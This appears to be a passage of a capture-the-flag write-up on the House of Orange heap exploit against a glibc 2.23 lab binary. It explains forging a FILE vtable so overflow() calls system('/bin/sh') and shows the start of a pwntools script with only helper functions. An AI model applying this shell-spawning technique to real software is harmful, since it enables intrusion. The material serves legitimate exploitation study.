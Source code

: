 ![image](https://hackmd.io/_uploads/SkjaLuhNR.png)

![image](https://hackmd.io/_uploads/HyslvO2V0.png)

**Now, we need to pass the check**
- `fp > write_ptr > write_base`
- `fp -> mode <= 0`

Afterwards, I need to set up to call system("/bin/sh"). 
- I provide a vtable pointer to a vtable in which the overflow() entry is populated by the function. 
- When the overflow() function is called, its first argument is the address of the file stream it's called from. That means if I write the string "/bin/sh" into the first quadword of our file stream, which is where the '_flags' field resides, then point the overflow() vtable entry at the GLIBC system() function, the call becomes system("/bin/sh") and I get a shell without the need for a one-gadget.

### Complete script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_orange', checksec=False)

libc = ELF('../.glibc/glibc_2.23/libc.so.6', checksec=False)
#libc = elf.libc

gs = """
b *main
b *main+287
b *main+353
b *main+412
b *main+478
b *_IO_flush_all_lockp
"""

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc_small():
    io.sendline(b'1')
    io.recvuntil(b'> ')
    
def malloc_large():
    #io.sendline(b'2')
    #io.recvuntil(b'> ')
    io.sendthen(b"> ", b"2")

def edit(data):
    io.sendline(b'3')
    io.sendlineafter(b'data: ', data)
    io.recvuntil(b'> ')

def quit():
    io.send(b'4')

```